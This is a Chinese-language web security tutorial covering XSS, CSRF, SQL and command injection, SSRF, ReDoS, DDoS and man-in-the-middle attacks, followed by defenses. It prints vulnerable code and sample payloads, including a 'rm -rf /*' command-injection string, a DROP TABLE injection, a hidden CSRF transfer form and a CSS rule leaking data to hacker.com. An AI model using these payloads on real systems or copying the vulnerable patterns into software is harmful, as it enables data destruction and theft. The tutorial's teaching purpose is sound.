

## 攻击篇

### XSS(跨站脚本攻击)

#### 原理

开发者盲目信息用户传递的信息而不做处理

当用户输入时，开发者盲目的把用户输入的信息传递给服务器，服务器把用户输入的信息转换成HTML标签，然后把转换后的HTML标签传递给用户

#### 特点

* 难以感知 没有UI呈现
* 窃取用户信息(cookies / token)
* 绘制 UI (例如弹窗), 诱使用户填写私密信息

#### 案例

##### 存储型XSSI(Stored XSS)

* 恶意脚本被存储在数据库中
* 访问页面 -> 读数据 = 执行恶意脚本被攻击
* **危害性极大, 可对所有访问这个页面的用户进行攻击**

```js
public async submit(ctx) {
    const { content, id } = ctx.request.body; // 没有对content 过滤
    await db.save({
        content,
        id
    });
}
public async render(ctx) {
    const { content } = await db.query({
        id: ctx.query.id
    });
// 没有对content 过滤
ctx.body = `<div>${content}</div>`;
}
```

当有用户恶意提交 `<script>alert(1)</script>` 时，浏览者访问页面会读取到 `<script>alert(1)</script>`，并且会执行 `alert(1)`

```html

<!-- 正常 -->
<div>Hello</div>

<!-- xss攻击 -->
<div><script>alert(1)</script></div>

```

##### 反射型XSS(Reflected XSS)

* 不涉及数据库
* 从 URL 上攻击

```js
public async render(ctx) {
    const { content } = ctx.query; // 没有对content 过滤
    ctx.body = `<div>${content}</div>`;
}
```

当用户访问 `http://localhost:3000/?content=<script>alert(1)</script>` 时，页面会生成 `<script>alert(1)</script>`，用户访问后执行 `alert(1)`

##### DOM-based XSS

完全不需要服务器参与

恶意攻击的发起 + 执行都在浏览器完成

```js
const content = new URL(location.href).searchParams.get('content'); // 没有对content 过滤
document.querySelector('div').innerHTML = content;
```

当用户访问`http://localhost:3000/?content=<script>alert(1)</script>` 时，界面读取URL参数时会读取到 `<script>alert(1)</script>` 插入到页面中发从而执行恶意脚本

##### Mutation-based XSS

* 利用了浏览器渲染DOM的特性
* 不同的浏览器会有不同的实现，按浏览器进行攻击

```html

<!-- XSS检查器: 无问题 -->
<noscript>
    <p title="</noscript>">

<!-- 渲染后 -->

<div>
<noscript>
    <p title="</noscript>
    
    "">"
</div>
```

### Cross-site request forgery(CSRF)

* 在用户不知情的前提下
* 利用用户权限(Cookies)
* 构造指定HTTP请求，窃取或修改用户敏感信息

#### 示例


```html
<!-- 用户点击 -->
<!-- 点击后向黑客转账100元 -->
<a href="http://bank.com/transfer?to=hacker&amount=100"> 点我抽奖 </a>

<!-- 用户访问后执行 -->
<!-- 加载图片时向黑客转账100元 -->


<!-- 表单 -->
<!-- 表单隐藏用户无法发现 -->
<form action="http://bank.com/transfer" method="POST">
    <input type="hidden" name="to" value="hacker">
    <input type="hidden" name="amount" value="100">
</form>
```

### 注入

#### SQL 注入


```js
public async renderForm(ctx) {
    const { username, form_id } = ctx.query;
    const sql = `SELECT * FROM users WHERE username='${username}'
    AND form_id='${form_id}'`;
    const users = await db.query(sql);
    ctx.body = users;
}
```

当用户输入用户名为 `any; DROP TABLE table` 时，数据库会执行 `SELECT * FROM users WHERE username=' any; DROP TABLE table'`，从而造成删库

#### 其它

* CLI
* OS command
* Server-side Request Forgery(SSRF), 服务端伪造请求 (严格意义上非注入，但原理类似)

##### 执行

```js
// 用于转换视频
public async convertVideo(ctx) {
    const { video, options } = ctx.query;
    exec(`convert-cli ${video} ${options}`);
    ctx.body = 'ok';
}
```

当用户请求参数为 `http://localhost:3000/?video=video.mp4&options=&& rm -rf /*` 时，会执行 `convert-cli video.mp4 && rm -rf /*` 从而造成服务器上的文件被删除

##### 读取修改

重要文件被暴露

* /etc/passwd
* /etc/shadow
* ~/.ssh
* /etc/apache2/httpd.conf
* /etc/nginx/nginx.conf
* 其它私密文件...

假如黑客可以修改nginx.conf文件，添加一个反向代理

```nginx
location / {
    proxy_pass http://localhost:3000;
}
```

黑客将我们网站的访问流量转发到其竞争对手，从而造成竞争对手服务器流量过大而宕机

##### SSRF

```js
public async webhook(ctx) {
    // callback 可能是内网 URL
    // e.g http://secret.com/get_employ_payrolls
    ctx.body = await fetch(ctx.query.callback);
}
```

### DoS

#### 原理

通过构造某种特殊的请求，导致服务器资源被显著消耗，来不及响应更多请求，导致请求积压，进而造成雪崩效应

#### 案例

知识补充

```js
const greedyRegExp = /a+/  // 有多少匹配多少
const nonGreedyRegExp = /a+?/  // 有一个就行
const str = "aaaaaaaaaaaa";
console.log(str.match(greedyRegExp)[0])
console.log(str.match(nonGreedyRegExp)[0])
```

有以下正则表达式
` ^((ab)*)+$ `

执行过程中存在的问题


大量的回溯会造成响应时间大大加长，接口吞吐量也会随之下降

需要注意的地方

* 耗时的同步操作
* 数据库写入
* SQL join
* 文件备份
* 循环执行逻辑

### DDoS

#### 原理
短时间内发送大量重复请求，造成服务器处理堵塞请求堆积，导致服务器雪崩从而无法响应新请求

特点：量大、攻击手段简单、破坏性严重

#### 案例

攻击者修改TCP发送大量SYN包，但不响应服务器ACK + SYN包，导致服务器无法释放连接从而堵塞


### 中间人攻击

#### 原理

环境

* 明文传输
* 信息纂改不可知
* 对方身份未验证



在这个图里，中间人窃取或纂改客户端与服务端交互的信息，从而导致信息泄露

## 防御篇

### XSS

守则

* 永不信任外部传入数据
* 不要将用户提交内容直接转换为DOM

工具

* 主流框架默认防御XSS
* Google-closure-library
* DOMPurify

#### 无法避免动态生成DOM

当存在需求无法避免动态生成DOM时，注意以下几点

##### DOM

对字符进行转义

##### SVG

允许上传图片时也要注意对SVG进行扫描

##### 自定义跳转连接

当允许用户自定义跳转连接时，需要对跳转连接进行过滤防范，例如`<a herf="javascript:alert(0)">` 存在危险

##### 自定义样式

当有表单radio被点击时触发get请求, 暴露收入情况

```css
input[type=radio].income-ge10k {
    background: url("http://hacker.com/?income=gt10k");
}
```

### CSRF

#### 同源策略

当满足以下条件时，浏览器认为同源，否则跨域

* 协议相同
* 域名相同
* 端口相同

如果发生跨域，看服务器是否支持CORS

#### Content Security Policy(CSP)

内容安全策略定义哪些源或域名是安全的，来自安全源的脚本可以执行，否则报错

对eval + inline scipt 说不

##### 服务器端设置

```text
Content-Security-Policy: script-src 'self' 同源允许
Content-Security-Policy: script-src 'self' https://domain.com 在同源之外允许该域脚本执行
```

##### 前端设置

```text
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://domain.com">
```

#### 防御

##### 检查请求头部

当伪造请求为异常来源时，就限制请求

在同源请求中，GET和HEAD不发送Origin头部，POST发送Origin头部

不论什么请求都带有Referer头部

##### token

思路：先有页面，后有请求

* 在页面中生成一个token，每次请求都带上这个token
* 在请求中检查token，如果不一致，则拒绝请求

##### iframe攻击

通过iframe构造页面，在其放欲攻击的页面，然后放一个按钮，当点击按钮时会穿透到攻击页面

```js
export default function App() {
    const onContentClick = () => console.log('content click');
    const onButtonClick = () => console.log('button click');
    return (
        <div>
            <button onClick={onButtonClick}>按钮</button>
            <div class="oncontent" onClick={onContentClick}>
                content
            </div>
        </div>
    );
    )
}
```

当点击时日志会出现 `button click`

防御手段:

通过设置X-Frame-Options: DENY/SAMEORIGIN，阻止iframe构造页面

DENY为禁止 SAMEORIGIN为同源才可构造

##### 职责分开

GET !== GET + POST

不应当即响应GET，又响应POST，很容易造成用户信息泄露甚至纂改，应当分为两个处理

错误示范

```js
public async getAndUpdate(ctx) {
    const { update, id } = ctx.query;
    if (update){
        await this.update(update);
    }
    ctx.body = await this.get(id);
}
```

##### Samesite Cookie

限制cookie

我的页面cookie只能在我的页面中使用

其它页面cookie都不能带上我的cookie

从根源上解决CSRF

限制的是

1. Cookie domain
2. 页面域名

服务器端设置
`Set-Cookie: SameSite=None; Secure;`

##### 防御CSRF的正确姿势

通过中间件来过滤

### 注入

#### SQL注入

使用prepared statement

预编译语句

```sql
PREPARE q FROM 'SELECT * FROM users WHERE id = ?';
SET @gender = 'female';
EXECUTE q USING @gender
DEALLOCATE PREPARE q;
```

#### exec

最小原则
不要给sudo或者root

建立允许名单 + 过滤
例如禁止rm

对URL类型参数进行协议、域名、ip等限制
例如禁止访问内网

### DoS

#### 正则

完善代码review工作，避免使用贪婪匹配，特别是在接口处理上

代码扫描 + 正则性能测试

不要使用用户提供的正则

#### DDoS

1. 流量治理

* 负载均衡
* API 网关
* CDN

1. 快速自动扩容
2. 非核心业务降级

在负载均衡及 API 网关处可以进行流量识别过滤掉异常请求

通过CDN、快速自动扩容、非核心业务降级进行抗量，提高服务器承载能力

#### 中间人

使用HTTPS加密传输内容

HTTPS特性：

* 可靠性：加密
* 完整性：MAC验证
* 不可抵赖性：数字签名 确保双方身份

HTTPS握手过程略

**完整性**
服务器在内容中加入hash信息，客户端收到后重新计算并校验hash

**数字签名**
私钥签名，公钥验证

**不可抵赖性**
存在一个CA(证书机构), 服务方会将一些元信息以及公钥合并成一个信息，使用CA提供的私钥对证书进行签名，形成服务器端保存的证书，这个证书传递给浏览器，浏览器利用CA公钥进行校验，如果校验成功，则证书有效

浏览器会大量内置各个CA公约

也要注意防止证书签名算法不够健壮时仍有证书风险

#### SRI

可以防范CDN被hack

```html
<script src="https://demo.com/script.js" integrity="sha384-{some-hash-value}"></script>


<!-- 伪代码 -->
<scipt lang="javascript">
    const remoteHash = hash(content);
    if (tagHash !== remoteHash) {
        throw new Error('Hash mismatch');
    }
</script>
```

#### Other

浏览器：

Feature-Policy/Permission-Policy

一个源(页面)，可以使用哪些功能，例如麦克风、摄像头等

* camera
* microphone
* geolocation
* autoplay
...

当使用iframe时，可以使用`<iframe allow="...">` 来设置

## 尾声

### 总结

* 安全无小事
* 使用的依赖也可能成为被攻破的一环
* 保持学习的心态

### 推荐阅读

[Web Application Security: Exploitation and Countermeasures for Modern Web Applications](https://www.amazon.com/Web-Application-Security-Exploitation-Countermeasures/dp/1492053112/ref=sr_1_3?crid=3KZBER4W7Z6JF&dchild=1&keywords=web+security&qid=1627822659&sprefix=web+secu%2Caps%2C360&sr=8-3)

[SameSite 那些事](https://imnerd.org/samesite.html)

[关于 Web 安全突然想到的 #32](https://github.com/AngusFu/diary/issues/32)

[什么是 DDoS 攻击？](https://aws.amazon.com/cn/shield/ddos-attack-protection/)
